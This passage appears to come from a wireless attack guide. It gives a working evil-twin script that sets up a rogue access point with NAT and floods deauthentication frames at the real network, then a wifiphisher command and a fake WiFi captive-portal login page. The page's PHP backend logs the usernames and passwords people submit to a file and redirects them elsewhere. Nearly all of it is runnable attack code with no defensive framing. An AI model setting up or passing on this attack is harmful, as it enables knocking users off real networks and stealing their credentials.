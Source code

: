 ```bash

# Configure evil twin AP
hostapd evil_twin.conf &
dnsmasq -C dnsmasq.conf -d &

# Enable IP forwarding and NAT
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i $INTERFACE_AP -o eth0 -j ACCEPT

# Deauth original network
aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF $INTERFACE_MON &

echo "[+] Evil twin attack started"
echo "[+] SSID: $TARGET_SSID"
echo "[+] Monitoring interface: $INTERFACE_MON"
echo "[+] AP interface: $INTERFACE_AP"
```

**Documentation**: Creates rogue access point to capture credentials and perform man-in-the-middle attacks.
**Limitations**: Requires multiple wireless interfaces; easily detected by informed users; illegal in many jurisdictions.

### Captive Portal Attacks
```bash
# WiFiPhisher Attack
wifiphisher -i wlan0 -e "Target_Network" --force-hostapd

# Custom Captive Portal
# Create fake login page (index.html)
cat > /var/www/html/index.html << 'EOF'
<!DOCTYPE html>
<html>
<head><title>WiFi Login</title></head>
<body>
<h2>WiFi Authentication Required</h2>
<form action="login.php" method="post">
  Username: <input type="text" name="username"><br>
  Password: <input type="password" name="password"><br>
  <input type="submit" value="Connect">
</form>
</body>
</html>
EOF

# Credential harvesting script (login.php)
cat > /var/www/html/login.php << 'EOF'
<?php
$username = $_POST['username'];
$password = $_POST['password'];
$log = date('Y-m-d H:i:s') . " - $username:$password\n";
file_put_contents('/tmp/credentials.log', $log, FILE_APPEND);
header('Location: https://google.com');
?>
EOF
```
